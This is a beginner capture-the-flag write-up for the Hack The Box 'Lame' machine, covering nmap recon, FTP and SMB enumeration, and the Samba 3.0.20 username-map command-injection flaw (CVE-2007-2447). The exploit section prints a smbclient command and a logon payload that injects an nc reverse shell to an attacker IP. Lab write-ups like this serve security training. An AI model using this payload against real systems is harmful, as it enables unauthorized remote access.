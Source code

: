 ![[photos/Lame.png]]
Lame box is an easy challenge suitable for beginners. It involves discovering open ports like FTP and SMB using Nmap. A vulnerability in Samba 3.0.20-Debian allows for remote command execution, making it a straightforward introduction to penetration testing.
# Recon

## nmap

Discovered some open ports.
![[Lame_image_1.png]]
Scan ports 21 (FTP), 22 (SSH), 139 (NetBIOS), 445 (SMB), and 3632, perform version detection and default script scanning.
![[Lame_image_2.png]]
## FTP - TCP 21
Anonymous login but empty.
![[Pasted image 20240623021419.png]]
## SMB - TCP 445
One accessible share.
![[Lame_image_3.png]]
Nothing Important
![[Pasted image 20240623021705.png]]

# Exploit
Samba 3.0.20-Debian is vulnerable to RCE.
CVE: https://nvd.nist.gov/vuln/detail/CVE-2007-2447

Connect to the smb share:
```
smbclient //10.129.101.202/tmp
```
Enter command to pop a shell:
```
logon "/=`nc 10.10.14.151 1337 -e /bin/sh`"
```

Root
![[tmp1719122533136_Lame_image_1.png]]

